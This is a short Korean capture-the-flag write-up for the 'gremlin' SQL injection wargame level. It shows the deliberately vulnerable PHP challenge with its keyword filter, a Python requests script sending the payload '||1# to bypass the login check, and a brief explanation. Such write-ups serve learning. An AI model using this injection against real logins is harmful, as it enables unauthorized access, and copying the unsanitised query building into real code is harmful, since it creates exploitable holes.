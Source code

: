 ## GREMLIN Write-up

### 문제
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### Exploit 코드
``` python
import requests

url = "http://los.rubiya.kr/gremlin_280c5552de8b681110e9287421b834fd.php"
session = {'PHPSESSID' : 'My PHPSESSID'}
data = {}
data['id'] = "'||1#"

res = requests.get(url, params=data, cookies=session)

if "Clear!" in res.text :
    print("[♪] GREMLIN Clear!")
```

python으로 HTTP 요청을 보내 응답을 받기 위해 requests 모듈을 사용했다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET으로 전송된 id와 pw를 필터링 하는 부분이다.
``` php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
id에서 싱글쿼터 필터링을 안하는 점을 이용해 우회할 수 있다.
id에 **'||1#** 을 입력해주면 쿼리문이 참이 된다.
```
select id from prob_gremlin where id=''||1#' and pw=''
```
쿼리문이 위와 같이 되고, **$result['id']** 에 값이 있어 문제가 풀린다.
